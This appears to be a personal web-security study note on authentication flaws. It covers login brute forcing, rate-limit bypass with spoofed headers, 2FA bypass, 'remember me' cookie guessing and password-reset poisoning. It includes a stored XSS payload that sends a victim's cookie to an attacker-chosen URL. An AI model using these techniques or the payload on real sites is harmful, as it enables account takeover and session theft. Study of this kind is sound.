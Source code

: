 
### General Notes

> The process of verifying the identity of a user.

* Knowledge Factors: Something you know like a password.
* Possesion Factors: Something you have like a security token.
* Inherence Factors: Something you are like biometrics.

> Authentication is verifying that a user is who they claim to be.
> Authorization is verifying whether a user is allowed to do something.

---

### Password Attacks

> Against websites that have username-password based login mechanisms.

##### Brute Force Attacks

> Trial and error attempts to guess valid user credentials.
> While brute forcing, must pay attention to: 
1. Status Codes: [[HTTP]] response codes can be observed. Sometimes the right username gives a different response than a wrong username.
2. Error Messages: Returned error messages are sometimes different when both username *and* password are incorrect, not just one of them. Observe characters for spelling mistakes, and so on.
3. Response Times: Observe response times. Sometimes websites will check password only if username is correct, so the response time increases. Can be checked by entering really large passwords, to make the website take longer to respond.

> Can be done via [[Burp Suite]] Intruder.
> To ensure 1 request is sent a time (if needed), go to resources pool tab and set the max concurrent requests to 1.

> If there is [[IP]] blocking, use the `X-Forwarded-For` [[HTTP]] header to change the IP address.
> If there is account locking, check all the usernames and don't exceed the password limit trials.

> User rate limiting occurs when making too many login attempts in a short period of time causing the [[IP]] to get blocked.
> IP can be unblocked by:
1. Manually by admin.
2. Manually by user after completing a CAPTCHA.
3. Automatically after a certain time period.
> User rate limiting can be bypassed by trying multiple passwords in one login request.

##### [[HTTP]] Basic Authentication

> Client recieves token from server constructed by concatenating username and password and then encoding in Base64. ([[Web Encoding]])
> This token is stored in the browser, and adds it in the `authorization` header of every request.
```
Authorization: Basic base64(username:password)
```

---

### Multi-Factor Authentication

##### Bypassing Two-Factor Authentication

> When users login and then are asked to enter some sort of verification code, they are already logged in.
> Sometimes, some pages are loaded before this verification stage is completed.

> To exploit this, login as a normal user and observe the URL paths that are after the verification stage.
> Then login as the victim user, and once asked for the verification, simply change the URL to another path to see if this stage can be altogether skipped.

##### Flawed Two-Factor Authentication

> After user has logged in, the website doesn't properly verify that it is the same user completing the second step; verification.

> Users are assigned [[Cookies]] when they are logged in that relate to their account. 
> This cookie is the same one that is taken to the verification stage.
> When the verification code is submitted, the cookie is used to determine the account the user is trying to access.

> An attacker coud login using his credentials, and then change his cookie to that of a victim user's.
> He would then have to brute force or guess the verification code in order to gain access to that account without even needing the password.

> Use the [[Burp Suite]] Turbo Intruder extension for increased speed in brute forcing verification codes.
> Can also be used to change macros, such as changing the session or logging in/out to avoid being blocked.

---

### Other Authentication Mechanisms


##### Keeping Users Logged In

> The 'remember me' feature is implemented by storing persistent [[Cookies]].
> Access to these cookies is dangerous as it skips the entire login process.

> These cookies can be generated via static value concatenation such as username, timestamp, password.
> If attacker can study their own cookie, they can figure out how these cookies are generated.

> Some websites have [[Web Encoding]] such as Base64, which can be easily decrypted.
> Using hashing functions is also not perfect as if the attacker identifies the hashing algorithm, they can brute force it using a wordlist using tools such as [[John the Ripper]].

> If attacker can't create an account, they can using [[Cross Site Scripting (XSS)]] steal another user's cookie and deduce how the cookie forms.
> Performing a stored attack to steal cookies:
``` HTML
<script>document.location='URL-to-send-to/'+document.cookie</script>
```

##### Resetting User Passwords

> Through the URL, users are taken to a unique page to reset their password.
```
http://website.com/reset-password?user=<victim>
```
> Not secure as attacker could change the victim username to any user and can change any users password.

> Using a long token for each user that is checked in the backend and then destroyed shortly after resetting the password.
> Sometimes, websites dont validate tokens, and attackers could reset their own password, then change that token to gain access to any user they need.
> This can be done by trying to delete the token value, and see if the website still responds properly.

> Another technique is to steal another user's token.
> Use the `X-Forwarded-Host` [[HTTP]] header to send the reset password email. 
> Let the value of that header to be my own website, so i can see the requests if clicked on by the victim user.
> Having the victim user token, I can open my own reset password page, but change the token to that of the victim user's.
> I can then reset the password.

##### Changing User Passwords

> Changing password means entering current password and then the new password twice.
> These features can be dangerous if attackers can access them without being logged in as the victim.

> Try different combinations of entering the correct current password and incorrect current password, and matching and not matching new passwords.
> Observe the responses for each combination, and check if a pattern is in place that can be cracked.

---

